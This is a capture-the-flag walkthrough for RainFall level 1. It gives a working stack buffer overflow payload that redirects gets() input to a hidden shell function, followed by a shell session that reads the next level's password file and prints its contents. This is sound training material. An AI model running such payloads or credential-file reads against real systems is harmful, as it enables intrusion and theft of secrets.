 📘 Buffer Overflow Exploit: Level 1
This is a classic stack-based buffer overflow example that demonstrates how you can redirect program execution to custom code by overflowing a buffer.

⚠️ Vulnerability Summary
The binary uses the unsafe gets() function.

gets() does not check how much input is provided.

So if you input more than the buffer can hold, it will start overwriting adjacent memory — including the saved return address on the stack.

This allows us to control the program's flow after the current function returns.

🧠 Our Goal
There is a hidden function in the binary named run() located at: 0x08048444
This function calls: system("/bin/sh");
💡 If we overwrite the return address to jump to run(), we get a shell as the level1 user.

🔎 Finding the Offset
To exploit this, we first need to know how many bytes it takes to reach the saved return address on the stack.

Step 1: Try 80 characters and check if EIP is overwritten

$ python -c 'print "B" * 80' > /tmp/payload
(gdb) r < /tmp/payload
Output:
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
✅ EIP is overwritten with 0x42 ("B" in ASCII) — good sign.

Step 2: Try 76 characters
$ python -c 'print "B" * 76' > /tmp/payload
(gdb) r < /tmp/payload
Output:
Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main ()
✅ At 76 bytes, we don’t overwrite EIP yet, so offset is exactly 76 bytes.

🛠 Crafting the Exploit
Here’s the working exploit:
(python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1

🔍 Explanation
python -c '...': We use Python to generate the exploit payload.

"A" * 76: Fills the buffer right up to the return address.

struct.pack("<I", 0x08048444): Packs the address of run() in little-endian format (\x44\x84\x04\x08).
< — little-endian
I — unsigned 4-byte integer

cat: Keeps stdin open — sometimes required if the program reads input again.

| ./level1: Feeds the payload into the vulnerable binary.

✅ What Happens?
gets() reads our input (76 A's + address of run()).

When main() tries to return, it jumps to 0x08048444.

That’s the run() function → which runs system("/bin/sh").


level1@RainFall:~$ (python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1
or
python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1

Good... Wait what?
./pass
/bin/sh: 1: ./pass: Permission denied
whoami
level2
cat /home/user/level2/.pass            
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77


alternative:
find the offset in the pattern 
```Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4```

"c5Ac"

